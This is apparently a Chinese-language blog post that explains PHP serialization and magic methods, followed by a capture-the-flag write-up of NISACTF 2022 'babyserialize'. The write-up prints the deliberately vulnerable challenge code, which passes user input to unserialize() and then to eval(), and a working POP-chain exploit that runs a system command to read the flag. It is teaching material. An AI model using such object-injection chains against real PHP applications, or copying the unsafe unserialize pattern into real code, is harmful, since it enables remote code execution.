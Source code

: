 ```yaml
---

layout: post
title: php序列化
categories: [web,php]
---
```


## 概念

```
PHP程序执行结束以后会将文件中的变量和内容释放掉， 如果一个程序想要的调用之前程序的变量，但是之前的程序已经执行完毕，所有的变量和内容都被释放，那该如何操作呢？这时  候就可以通过序列化和反序列化保存程序中的对象，给其他程序使用。 php序列化可以将对象转换成字符串，但只序列化属性，不序列化方法。
```

如果 `unserialize() `在执行时定义了 `__destruct()` 或 `__wakeup() `函数，则有可能导致代码执行。  

## 含义

```php
    <?php
        class TEST{
            public $a="public";  
            private $b="private";  
            protected $c="protected";  
            static $d="static";  
        }

        $aaa=new TEST();  
        echo serialize($aaa);  

    ?>

    输出：O:4:"TEST":3{s:1:"a";s:6:"public";s:7:"TESTb";s:7:"private";s:4:"*c";s:9:"protected";}  

    解释：  
    O:表示这是一个对象  
    4:对象的名称TEST有4个字符  
    TEST:对象的名称  
    3:对象属性的个数（不包含static）  

    s:变量名数据类型为string  
    1:变量a的名字长度   
    a:变量名称  
    s:变量值的数据类型  
    6:变量值的长度  
    public:变量的值  
```

---

## 其他常见的magic函数

![magic](/img/magic.png)

## 先从简单的POP链学起  

### [NISACTF 2022]babyserialize

```php
<?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever; //第一个写执行命令的地方
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke() //找到切入点，作为尾巴  要找到调用函数触发
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;//5
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x); //找到一个不存在的函数,__wakeup作为首
    }
}

class Ilovetxw{
    public $huang;//4
    public $su; //2

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0]; //找到不存在的fun()方法,且要激活__call()
    }

    public function __toString(){
        $bb = $this->su;
        return $bb(); //调用函数，且要激活__toString()
    }
}

class four{
    public $a="TXW4EVER";  //3
    private $fun='abc';

    public function __set($name, $value)
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a); //转换为字符小写,且要激活__set()
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>
```

构造pop链

```php
<?php
class NISA{
public $fun;
public $txw4ever='SYSTEM("tac /f*");';
}
class TianXiWei{
public $ext;
public $x;
}
class Ilovetxw{
public $huang;
public $su;
}
class four{
public $a;
private $fun;
}
$a=new TianXiWei();
$a->ext=new Ilovetxw();
$a->ext->huang=new four();
$a->ext->huang->a=new Ilovetxw();
$a->ext->huang->a->su=new NISA();
echo urlencode(serialize($a));
```

### [NISACTF 2022]popchains

### 反序列化也可以跟$_SESSION和字符串逃逸结合起来

[点击查看](https://minelords.github.io/2023/08/06/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%B0%8F%E7%9F%A5%E8%AF%86%E9%9B%86/#_session%E7%9A%84%E4%BD%BF%E7%94%A8)
